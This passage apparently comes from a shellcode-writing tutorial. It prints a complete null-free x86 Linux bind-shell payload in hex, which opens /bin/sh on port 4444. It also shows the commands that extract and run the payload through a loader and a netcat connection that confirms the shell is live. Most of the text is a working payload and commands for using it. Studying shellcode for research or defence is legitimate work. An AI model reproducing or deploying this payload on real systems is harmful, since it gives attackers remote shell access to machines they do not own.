 If you check the shellcode generated by this assembly code -

```bash
$ ./shellcode_kit.sh -a x86 --extract bind_null_free_32
$ cat shellcode_bind_null_free_32.txt 
\x31\xdb\xf7\xe3\x31\xc9\xb0\x66\xb3\x01\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x02\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd\x80\x41\x83\xf9\x03\x75\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

```

It doesn't contain any null-bytes. We can pass this to our loader.

```bash
$ ./shellcode_kit.sh -a x86 --run bind_null_free_32
```

On second terminal connect to port 4444

```bash
nc localhost 4444

```

It is working! :)

